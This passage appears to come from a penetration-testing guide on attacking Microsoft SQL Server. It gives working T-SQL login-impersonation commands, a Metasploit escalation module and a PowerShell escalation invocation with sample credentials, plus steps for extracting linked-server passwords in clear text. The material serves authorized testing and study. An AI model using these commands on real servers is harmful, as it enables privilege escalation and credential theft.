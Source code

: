 > [!NOTE]
> If you can impersonate a user, even if he isn't sysadmin, you should check i**f the user has access** to other **databases** or linked servers.

Note that once you are sysadmin you can impersonate any other one:

```sql
-- Impersonate RegUser
EXECUTE AS LOGIN = 'RegUser'
-- Verify you are now running as the the MyUser4 login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Change back to sa
REVERT
```

You can perform this attack with a **metasploit** module:

```bash
msf> auxiliary/admin/mssql/mssql_escalate_execute_as
```

or with a **PS** script:

```powershell
# https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1
Import-Module .Invoke-SqlServer-Escalate-ExecuteAs.psm1
Invoke-SqlServer-Escalate-ExecuteAs -SqlServerInstance 10.2.9.101 -SqlUser myuser1 -SqlPass MyPassword!
```

## Using MSSQL for Persistence

[https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/](https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/)

## Extracting passwords from SQL Server Linked Servers

An attacker can extract SQL Server Linked Servers passwords from the SQL Instances and get them in clear text, granting the attacker passwords that can be used to acquire a greater foothold on the target. The script to extract and decrypt the passwords stored for the Linked Servers can be found [here](https://www.richardswinbank.net/admin/extract_linked_server_passwords)

Some requirements, and configurations must be done in order for this exploit to work. First of all, you must have Administrator rights on the machine, or the ability to manage the SQL Server Configurations.

After validating your permissions, you need to configure three things, which are the following:

1. Enable TCP/IP on the SQL Server instances;
2. Add a Start Up parameter, in this case, a trace flag will be added, which is -T7806.
3. Enable remote admin connection.

To automate these configurations, [this repository ](https://github.com/IamLeandrooooo/SQLServerLinkedServersPasswords/)has the needed scripts. Besides having a powershell script for each step of the configuration, the repository also has a full script which combines the configuration scripts and the extraction and decryption of the passwords.

